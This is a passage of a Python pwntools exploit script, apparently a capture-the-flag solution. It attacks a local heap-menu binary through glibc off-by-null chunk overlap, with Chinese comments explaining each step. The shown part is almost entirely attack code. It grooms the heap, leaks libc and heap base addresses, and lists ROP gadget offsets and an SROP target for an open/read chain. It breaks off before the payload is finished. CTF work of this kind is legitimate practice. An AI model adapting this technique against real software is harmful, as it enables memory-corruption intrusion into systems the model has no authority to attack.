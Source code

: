 ```python
    p.sendlineafter('Index: ',str(index))

ptr = 0x4160
while True:
    p = process("./fcvk")
    try:
        #高版本的offbynull堆合并用于泄露地址和堆复用，add时编辑的内容最后一字节会置零这里要爆破
        New(0x2000,'FMYY')# 0
        New(0x1000,'FMYY')# 1 用于srop
        New(0x2000 - 0x2F0 - 0x600,'FMYY')# 2 填地址使chunk2地址对齐000
        
        New(0x4F0,'FMYY') # 3 chunk1
        New(0x108,'FMYY') # 4
        New(0x500,'FMYY') # 5 chunk2 
        New(0x108,'FMYY') # 6
        New(0x108,'FMYY') # 7
        New(0x108,'FMYY') # 8
        New(0x510,'FMYY') # 9 chunk3
        New(0x108,'FMYY') # 10
        New(0x4F0,'FMYY') # 11 chunk4
        New(0x108,'FMYY') # 12

        # 设置fakechunk fd and bk 以及 chunk1 bk
        Free(3)
        Free(5)
        Free(9)
        New(0x2000,'FMYY')#3
        Free(3)
        New(0x500,'\x00'*8 + p64(0xE61)) # 3 chunk2 set fakechunk_size
        New(0x4F0,'\x00'*8+ '\x10\x00') # 5 chunk1

        # 设置chunk3 fd 
        Free(11)
        New(0x800,'FMYY') # 9 put in largebin
        Free(9)
        New(0x510,'\x10\x00') #9 chunk3
        New(0x4F0,'\x00'*0x20) #11 chunk4
        
        # 设置prev_size位
        Modify(10,'\x00'*0x100 + p64(0xE60))
        Free(11)
        New(0x4F0,'FMYY') #11  to split the unsorted bin chunk
        New(0x1000,'FMYY') # 12 put in largebin
        Show(6)# 堆复用unsrtbin-6
        libc_base = u64(p.recvuntil('\x7F')[-6:].ljust(8,'\x00')) - 1648 - 0x10 - libc.sym['__malloc_hook']
        lg("libc_base")
        Show(9)# chunk3
        heap_base = u64(p.recv(6).ljust(8,'\x00')) - 0x49F0
        lg("heap_base")
        
        ############################准备一些变量
        SROP_address = heap_base + 0x79F0
        magic = libc_base + 0x1EB538 # 存放tcache_struct地址的位置
        main_arena = libc_base + libc.sym['__malloc_hook'] + 0x10
        pop_rdi_ret = libc_base + 0x000000000002858F
        pop_rdx_r12 = libc_base + 0x0000000000114161
        pop_rsi_ret = libc_base + 0x000000000002AC3F
        pop_rax_ret = libc_base + 0x0000000000045580
        syscall_ret = libc_base + 0x00000000000611EA
        malloc_hook = libc_base + libc.sym['__malloc_hook']
        Open = libc_base + libc.sym["open"]
        Read = libc_base + libc.sym["read"]
```